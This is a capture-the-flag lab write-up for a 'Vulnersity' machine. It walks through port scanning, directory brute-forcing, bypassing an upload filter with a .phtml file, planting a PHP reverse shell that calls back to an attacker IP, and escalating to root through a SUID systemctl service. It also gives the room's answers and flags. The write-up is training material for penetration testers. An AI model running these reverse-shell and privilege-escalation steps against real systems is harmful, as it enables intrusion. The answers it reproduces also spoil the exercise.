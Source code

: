 # Vulnersity

## Task 2 Reconnaissance

```bash
nmap -sV 10.10.5.245
# 21/tcp   open  ftp         vsftpd 3.0.3
# 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
# 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
# 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
# 3128/tcp open  http-proxy  Squid http proxy 3.5.12
# 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
# Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Scan the box, how many ports are open?

{% hint style="success" %}
`6`
{% endhint %}

#### What version of the squid proxy is running on the machine?

{% hint style="success" %}
`3.5.12`
{% endhint %}

#### How many ports will nmap scan if the flag -p-400 was used?

{% hint style="success" %}
`400`
{% endhint %}

#### Using the nmap flag -n what will it not resolve?

{% hint style="success" %}
`DNS`
{% endhint %}

#### What is the most likely operating system this machine is running?

{% hint style="success" %}
`Ubuntu`
{% endhint %}

#### What port is the web server running on?

{% hint style="success" %}
3333
{% endhint %}

## Task 3 Locating directories using GoBuster

```bash
gobuster dir -u http://10.10.247.67:3333 \
             -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
             -t64
# /css                  (Status: 301) [Size: 317] [--> http://10.10.247.67:3333/css/]
# /images               (Status: 301) [Size: 320] [--> http://10.10.247.67:3333/images/]
# /js                   (Status: 301) [Size: 316] [--> http://10.10.247.67:3333/js/]    
# /fonts                (Status: 301) [Size: 319] [--> http://10.10.247.67:3333/fonts/] 
# /internal             (Status: 301) [Size: 322] [--> http://10.10.247.67:3333/internal/]
```

#### What is the directory that has an upload form page?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 08-37-55.png>)

{% hint style="success" %}
`/internal/`
{% endhint %}

## Task 4 Compromise the webserver

#### Try upload a few file types to the server, what common extension seems to be blocked?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 08-53-24.png>)

{% hint style="success" %}
`.php`
{% endhint %}

#### Run this attack, what extension is allowed?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-03-42.png>)

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-03-26.png>)

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-06-20.png>)

{% hint style="success" %}
`.phtml`
{% endhint %}

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php \
     -O php-reverse-shell.phtml
sed -i 's/^$ip =.*/$ip = "10.17.20.154";/' php-reverse-shell.phtml
sed -i 's/^$port =.*/$port = 4444;/' php-reverse-shell.phtml
```

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-24-37.png>)

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-25-11.png>)

#### What is the name of the user who manages the webserver?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-29-46.png>)

{% hint style="success" %}
`bill`
{% endhint %}

#### What is the user flag?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-33-45.png>)

{% hint style="success" %}
`8bd7992fbe8a6ad22a63361004cfcedb`
{% endhint %}

## Task 5 Privilege Escalation

#### On the system, search for all SUID files. What file stands out?

```bash
wget http://10.17.20.154/suid3num.py -P /tmp
python /tmp/suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-51-27.png>)

{% hint style="success" %}
`/bin/systemctl`
{% endhint %}

#### Become root and get the last flag

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

![](<../../.gitbook/assets/Screenshot from 2021-09-06 09-57-52.png>)

{% hint style="success" %}
`a58ff8579f0a9270368d33a9966c7fd5`
{% endhint %}
